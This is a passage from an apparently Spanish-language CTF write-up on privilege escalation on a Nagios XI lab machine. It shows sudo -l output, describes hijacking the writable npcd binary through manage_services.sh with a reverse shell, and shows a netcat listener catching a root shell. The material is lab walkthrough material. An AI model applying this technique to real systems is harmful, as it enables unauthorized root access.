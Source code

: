 
## Escalada de Privilegios
La escalada de privilegios se realizo mediante la enumeración manual de privilegios, primero se vieron los permisos "sudo -l"
~~~bash
nagios@monitored:/tmp$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
~~~
Para esto simplemente busque en internet alguno de estos archivos para ver si existe forma de abusar de ellos, encontrando esto https://gist.github.com/sec-fortress/6d128a5e290e873be4c2ca27b6579eca
Este exploit solamente indica que al ejecutar el script "manage_services" junto a algun comando como "start, stop, restart, etc" y el servico que se quiera ejecutar, hace un file hijacking colocando un archivo malicioso (reverse shell) en el lugar donde busca ejecutarlo que es "/usr/local/nagios/bin/npcd" en el que tenemos permisos de escritura.
No es muy dificil de intuirlo, igualmente se puede leer el script para entenderlo mejor, pero es lo mismo.
Asi que copiando el script y modificandolo para enviar la revese shell a mi maquina atacante se obtiene una shell como root.
~~~bash
nagios@monitored:/tmp$ chmod +x priv.sh 
nagios@monitored:/tmp$ ./priv.sh 
[+] Start Up your listener
[+] nc -lvnp 8090
[+] Expect your shellzz xD
[+] done
~~~
En mi maquina se programo un escucha y obtuve la shell.
~~~bash
sudo nc -nlvp 8090                     
[sudo] password for kali: 
listening on [any] 8090 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.248] 53406
id
uid=0(root) gid=0(root) groups=0(root)
~~~

---